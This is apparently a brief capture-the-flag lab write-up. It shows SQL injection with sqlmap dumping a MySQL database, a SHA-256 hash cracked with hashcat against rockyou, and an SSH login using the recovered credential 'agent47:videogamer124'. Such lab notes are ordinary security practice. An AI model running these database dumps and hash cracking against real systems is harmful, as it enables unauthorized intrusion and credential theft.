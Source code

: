 ## sql injection

saving the request
![[Pasted image 20210528135740.png]]

running sql map
`sqlmap -r request.txt --dbms=mysql --dump `

![[Pasted image 20210528135935.png]]

and we got the dump

![[Pasted image 20210528140055.png]]

cracking the hash `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

`hashcat -m 1400 hash /usr/share/wordlists/rockyou.txt`
![[Pasted image 20210528141024.png]]

`agent47:videogamer124`

ssh and got user

![[Pasted image 20210528141332.png]]

